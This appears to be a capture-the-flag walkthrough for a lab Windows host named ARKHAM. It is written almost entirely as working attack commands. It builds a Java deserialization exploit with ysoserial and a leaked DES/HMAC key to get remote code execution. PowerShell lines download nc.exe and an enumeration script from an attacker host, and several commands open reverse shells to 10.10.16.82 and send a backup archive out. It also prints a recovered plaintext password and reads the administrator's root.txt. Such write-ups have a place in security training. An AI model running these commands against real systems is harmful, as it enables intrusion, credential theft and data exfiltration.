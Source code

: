 8080

/css (Status: 302)
/fonts (Status: 302)
/images (Status: 302)
/index.html (Status: 200)
/js (Status: 302)


echo exit | smbclient -L \\\\10.10.10.130
Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------

	ADMIN$          Disk      Remote Admin
	BatShare        Disk      Master Wayne's secrets
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Users           Disk      
Reconnecting with SMB1 for workgroup listing.

You will get one .img file from Batshare. use binwalk -e to extract it, then go to 
appserver/_backup.img.extracted/825A23/Mask/tomcat-stuff/web.xml.bak there you will get 
secret: SnNGOTg3Ni0=(JsF9876-), algorithm: HmacSHA1, hex_of_key: 4a7346393837362d

http://10.10.10.130:8080/userSubscribe.faces, There is hmacsha1 value there will lead to RCE.


https://www.exploit-db.com/docs/english/44756-deserialization-vulnerability.pdf
https://github.com/frohoff/ysoserial
https://gist.github.com/cdowns71/76d99ad0829ceef3a83761dbeee3b66d

java -jar ysoserial.jar CommonsCollections5 'ping -n 3 10.10.16.82' > ping.bin
openssl enc -des-ecb -K 4a7346393837362d -in ping.bin -out ping.bin.enc
python hmac_base64.py 
base64 -d <<<abXMqIAUzdaQA25mFb1ovRxccCw= >> ping.bin.enc
openssl enc -base64 -in ping.bin.enc -out ping.bin.enc.b64
cat ping.bin.enc.b64
url encode and use it.


java -jar ysoserial.jar CommonsCollections5 'Powershell "Invoke-WebRequest -Uri http://10.10.16.82:8081/nc.exe -OutFile nc.exe"'> ping.bin
openssl enc -des-ecb -K 4a7346393837362d -in ping.bin -out ping.bin.enc
python hmac_base64.py 
base64 -d <<< ArqWVb1VFRSsNaUqCAuW9tqJj4Y= >>ping.bin.enc
openssl enc -base64 -in ping.bin.enc -out ping.bin.enc.b64
cat ping.bin.enc.b64
url encode and use it.


java -jar ysoserial.jar CommonsCollections5 'nc.exe 10.10.16.82 5546 -e cmd.exe"' >ping.bin
openssl enc -des-ecb -K 4a7346393837362d -in ping.bin -out ping.bin.enc
python hmac_base64.py
base64 -d <<< pGm5fNa37T+rO7I4kPVOH5HokpE= >> ping.bin.enc
openssl enc -base64 -in ping.bin.enc -out ping.bin.enc.b64
cat ping.bin.enc.b64
url encode and use it.

Powershell "Invoke-WebRequest -Uri http://10.10.16.82:8081/JAWS/jaws-enum.ps1 -OutFile jaws-enum.ps1"
powershell -File jaws-enum.ps1


nc -l -p 5547 > backup.zip (receiver end)
C:\tomcat\apache-tomcat-8.5.37\bin\nc.exe -w 3 10.10.16.82 5547 < backup.zip (sender)

readpst outlook_folder
you will get base64 encoded image then decode it, it will show you the passwordof batman

batman:Zx^#QZX+T!123


$username = 'batman';
$password = 'Zx^#QZX+T!123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

Invoke-Command -ComputerName ARKHAM -Credential $credential -ScriptBlock {C:\tomcat\apache-tomcat-8.5.37\bin\nc.exe 10.10.16.82 5547 -e cmd.exe}

It will give you reverse connection.

net use E: \\ARKHAM\C$
E:
cd Users\Administrator\Desktop
more root.txt
